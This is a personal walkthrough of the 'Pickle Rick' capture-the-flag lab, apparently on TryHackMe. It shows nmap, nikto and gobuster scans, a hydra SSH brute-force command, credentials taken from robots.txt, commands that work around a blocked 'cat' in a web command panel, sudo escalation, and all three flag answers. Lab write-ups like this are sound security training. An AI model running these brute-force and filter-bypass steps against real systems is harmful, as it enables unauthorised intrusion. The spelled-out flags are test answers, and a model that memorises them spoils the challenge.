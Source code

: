 **IPv4: 10.10.158.113**

We are given https://10-10-158-113.p.thmlabs.com/ to access the web app and start the box.

## Enumeration/Scanning

**Username: R1ckRul3s**

nmap -sV -sC -O -v 10.10.158.113 | tee nmap/initial

Open Ports:

- 22/tcp
    - OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
- 80/tcp
    - Apache httpd 2.4.18 ((Ubuntu))

nikto -h [http://$IP](http://%24ip/) | tee nikto.log

- login.php*

import IP=10.10.158.113
gobuster dir -u [http://$IP](http://%24ip/) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css/py -o gobuster/test

- ![[Pasted image 20230405030558.png]]
![[Pasted image 20230405013800.png]]
- bootstrap.min.css
    - nothing
- bootstrap.min.js
    - nothing
- jquery.min.js
    - nothing

The pictures could possibly contain hidden strings?

robots.txt

- **Contents: "Wubbalubbadubdub"**

gobuster dir -u https://10-10-158-113.p.thmlabs.com/assets -w /usr/share/dirb/wordlists/common.txt -o gobuster/assets

- Nothing

use hydra to brute force into 22 with username found

- hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt ssh://10.10.158.113
- target does not use password authentication.

login.php

- username: R1ckRul3s
- password: Wubbalubbadubdub

portal.php

- html has an encoded message
- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
- Using cyberchef it decoded to "Rabbit hole"

I'm able to send cmd commands in the command panel

unable to cat the txt file,

first ingredient location:

- /var/www/html/Sup3rS3cretPickl3Ingred.txt
- Since I cannot cat, I tried accessing it through the URL
    - [10-10-158-113.p.thmlabs.com/portal.php/../Sup3rS3cretPickl3Ingred.txt](http://10-10-158-113.p.thmlabs.com/Sup3rS3cretPickl3Ingred.txt)
    - Ingredient: mr. meeseek hair

second ingrediant location:

- /home/rick/second ingredient
- tac /home/rick/secondingredients | tac
- 1 jerry tear

## Exploitation

## Privilege Escalation

sudo -l

- All have sudo powers

third ingredient location:

- I checked the root folder. I had to use sudo to do so. Since ALL have sudo powers I can.
- fleeb juice

netcat also disabled

Here are other ways you could view the files

- grep . file.txt
- while read line; do echo $line; done < file.txt
- grep -R .

## Post-exploitation

None
